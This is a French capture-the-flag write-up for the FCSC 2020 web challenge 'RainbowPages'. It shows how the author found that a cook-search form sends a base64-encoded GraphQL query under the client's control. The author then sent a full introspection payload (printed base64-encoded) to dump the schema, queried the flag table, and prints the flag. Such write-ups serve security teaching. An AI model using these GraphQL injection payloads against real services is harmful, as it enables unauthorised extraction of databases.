




# RainbowPages

Auteur: Ewaël

**RainbowPages** est un des challenges web à 25 points du FCSC 2020 et dont voici l'énoncé:

Le lien menant à une recherche pour des cuisiniers.

Curieux de voir sous quelle forme la requête était envoyée, j'ai directement commencé par intercepter celle qu'envoyait `Submit` avec la valeur "allo".

Deux choses sont intéressantes ici. La réponse qui me permet facilement d'identifier du GraphQL en une recherche rapide, et la chaine encodée en base 64 qui, une fois décodée, donne ça:

`{ allCooks (filter: { firstname: {like: "%allo%"}}) { nodes { firstname, lastname, speciality, price }}}`

Je n'avais jamais vu de requête en GraphQL avant, mais après quelques lectures je comprends qu'il existe un moyen de dump toute la structure de la base de donnée appelé l'introspection.

[https://graphql.org/learn/introspection/](https://graphql.org/learn/introspection/)

De plus, je contrôle ici toute la query que j'ai juste à encoder en base 64 afin d'avoir la réponse du serveur. Je trouve alors un payload tout fait qui va me renvoyer toute la base de donnée ici:

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/GraphQL%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/GraphQL%20Injection)

Ainsi, encodé en base 64, ça donne ça:

`index.php?search=ZnJhZ21lbnQgRnVsbFR5cGUgb24gX19UeXBlIHsKICBraW5kCiAgbmFtZQogIGRlc2NyaXB0aW9uCiAgZmllbGRzKGluY2x1ZGVEZXByZWNhdGVkOiB0cnVlKSB7CiAgICBuYW1lCiAgICBkZXNjcmlwdGlvbgogICAgYXJncyB7CiAgICAgIC4uLklucHV0VmFsdWUKICAgIH0KICAgIHR5cGUgewogICAgICAuLi5UeXBlUmVmCiAgICB9CiAgICBpc0RlcHJlY2F0ZWQKICAgIGRlcHJlY2F0aW9uUmVhc29uCiAgfQogIGlucHV0RmllbGRzIHsKICAgIC4uLklucHV0VmFsdWUKICB9CiAgaW50ZXJmYWNlcyB7CiAgICAuLi5UeXBlUmVmCiAgfQogIGVudW1WYWx1ZXMoaW5jbHVkZURlcHJlY2F0ZWQ6IHRydWUpIHsKICAgIG5hbWUKICAgIGRlc2NyaXB0aW9uCiAgICBpc0RlcHJlY2F0ZWQKICAgIGRlcHJlY2F0aW9uUmVhc29uCiAgfQogIHBvc3NpYmxlVHlwZXMgewogICAgLi4uVHlwZVJlZgogIH0KfQpmcmFnbWVudCBJbnB1dFZhbHVlIG9uIF9fSW5wdXRWYWx1ZSB7CiAgbmFtZQogIGRlc2NyaXB0aW9uCiAgdHlwZSB7CiAgICAuLi5UeXBlUmVmCiAgfQogIGRlZmF1bHRWYWx1ZQp9CmZyYWdtZW50IFR5cGVSZWYgb24gX19UeXBlIHsKICBraW5kCiAgbmFtZQogIG9mVHlwZSB7CiAgICBraW5kCiAgICBuYW1lCiAgICBvZlR5cGUgewogICAgICBraW5kCiAgICAgIG5hbWUKICAgICAgb2ZUeXBlIHsKICAgICAgICBraW5kCiAgICAgICAgbmFtZQogICAgICAgIG9mVHlwZSB7CiAgICAgICAgICBraW5kCiAgICAgICAgICBuYW1lCiAgICAgICAgICBvZlR5cGUgewogICAgICAgICAgICBraW5kCiAgICAgICAgICAgIG5hbWUKICAgICAgICAgICAgb2ZUeXBlIHsKICAgICAgICAgICAgICBraW5kCiAgICAgICAgICAgICAgbmFtZQogICAgICAgICAgICAgIG9mVHlwZSB7CiAgICAgICAgICAgICAgICBraW5kCiAgICAgICAgICAgICAgICBuYW1lCiAgICAgICAgICAgICAgfQogICAgICAgICAgICB9CiAgICAgICAgICB9CiAgICAgICAgfQogICAgICB9CiAgICB9CiAgfQp9CgpxdWVyeSBJbnRyb3NwZWN0aW9uUXVlcnkgewogIF9fc2NoZW1hIHsKICAgIHF1ZXJ5VHlwZSB7CiAgICAgIG5hbWUKICAgIH0KICAgIG11dGF0aW9uVHlwZSB7CiAgICAgIG5hbWUKICAgIH0KICAgIHR5cGVzIHsKICAgICAgLi4uRnVsbFR5cGUKICAgIH0KICAgIGRpcmVjdGl2ZXMgewogICAgICBuYW1lCiAgICAgIGRlc2NyaXB0aW9uCiAgICAgIGxvY2F0aW9ucwogICAgICBhcmdzIHsKICAgICAgICAuLi5JbnB1dFZhbHVlCiAgICAgIH0KICAgIH0KICB9Cn0=`

et ça me renvoie un joyeux bazar:

Je `CTRL-F` pour voir s'il existe le mot "flag" dans la database et je trouve mon bonheur, qui me permet d'envoyer la requête finale, qui aurait d'ailleurs facilement pu être devinée sur le schéma de la query d'origine:

`{ allFlags { nodes { flag } } }` = `eyBhbGxGbGFncyB7IG5vZGVzIHsgZmxhZyB9IH0gfQ==`

On récupère le flag dans la réponse:

`FCSC{1ef3c5c3ac3c56eb178bafea15b07b82c4a0ea8184d76a722337dca108add41a}`
